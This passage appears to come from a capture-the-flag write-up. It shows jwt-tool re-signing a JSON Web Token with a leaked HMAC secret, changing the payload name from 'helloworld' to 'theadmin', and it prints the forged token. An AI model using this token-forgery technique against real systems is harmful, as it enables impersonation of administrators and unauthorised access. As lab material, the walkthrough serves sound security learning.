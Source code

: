 Tamper the jwt token using the secret. with the command `jwt-tool $TOKEN -T -S hs256 -p $SECRET`
```
Token header values:
[1] alg = "HS256"
[2] typ = "JWT"
[3] *ADD A VALUE*
[4] *DELETE A VALUE*
[0] Continue to next step

Please select a field number:
(or 0 to Continue)
> 0

Token payload values:
[1] _id = "61bab2837390830463873c3b"
[2] name = "helloworld"
[3] email = "helloworld@dasith.works"
[4] iat = 1639626200    ==> TIMESTAMP = 2021-12-15 20:43:20 (UTC)
[5] *ADD A VALUE*
[6] *DELETE A VALUE*
[7] *UPDATE TIMESTAMPS*
[0] Continue to next step

Please select a field number:
(or 0 to Continue)
> 2

Current value of name is: helloworld
Please enter new value and hit ENTER
> "theadmin"
[1] _id = "61bab2837390830463873c3b"
[2] name = "theadmin"
[3] email = "helloworld@dasith.works"
[4] iat = 1639626200    ==> TIMESTAMP = 2021-12-15 20:43:20 (UTC)
[5] *ADD A VALUE*
[6] *DELETE A VALUE*
[7] *UPDATE TIMESTAMPS*
[0] Continue to next step

Please select a field number:
(or 0 to Continue)
> 0
jwttool_22d71bee6e186dd3e94537d75fac5330 - Tampered token - HMAC Signing:
[+] eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MWJhYjI4MzczOTA4MzA0NjM4NzNjM2IiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6ImhlbGxvd29ybGRAZGFzaXRoLndvcmtzIiwiaWF0IjoxNjM5NjI2MjAwfQ.qqUfufzigH5DxLoxU8I192t1C_WHFlg8Jgn__e8_ChQ
```

Here, the name was changed to `theadmin` and the new JWT is 
```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MWJhYjI4MzczOTA4MzA0NjM4NzNjM2IiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6ImhlbGxvd29ybGRAZGFzaXRoLndvcmtzIiwiaWF0IjoxNjM5NjI2MjAwfQ.qqUfufzigH5DxLoxU8I192t1C_WHFlg8Jgn__e8_ChQ
```
